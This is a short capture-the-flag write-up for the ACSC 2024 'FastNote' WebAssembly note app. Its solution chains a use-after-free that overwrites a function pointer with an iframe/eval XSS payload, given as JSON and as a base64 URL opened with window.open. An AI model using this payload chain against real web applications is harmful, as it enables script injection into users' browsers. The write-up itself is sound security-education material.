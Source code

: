 # ACSC24

ACSC 2024 Challenges

## FastNote

### Description

I heard WebAssembly is super fast, so I made a note-taking app with it. What could go wrong?

### Solution

Use After Free (UAF) to overwrite the `toHTML` function pointer to the `populateNoteHTML` JavaScript function.

![](./1.png)

![](./2.png)

```json
[
  {
    "action": "add",
    "title": "<iframe srcdoc=\"<script src=/1/;eval(top.name);//></script>\"",
    "content": ""
  },
  {
    "action": "delete",
    "noteId": 0
  },
  {
    "action": "add",
    "title": "\u0005\u0000\u0000\u0000",
    "content": ""
  }
]
```

`window.open("http://127.0.0.1/?s=WwogIHsKICAgICJhY3Rpb24iOiAiYWRkIiwKICAgICJ0aXRsZSI6ICI8aWZyYW1lIHNyY2RvYz1cIjxzY3JpcHQgc3JjPS8xLztldmFsKHRvcC5uYW1lKTsvLz48L3NjcmlwdD5cIiIsCiAgICAiY29udGVudCI6ICIiCiAgfSwKICB7CiAgICAiYWN0aW9uIjogImRlbGV0ZSIsCiAgICAibm90ZUlkIjogMAogIH0sCiAgewogICAgImFjdGlvbiI6ICJhZGQiLAogICAgInRpdGxlIjogIlx1MDAwNVx1MDAwMFx1MDAwMFx1MDAwMCIsCiAgICAiY29udGVudCI6ICIiCiAgfQpd", "alert()")`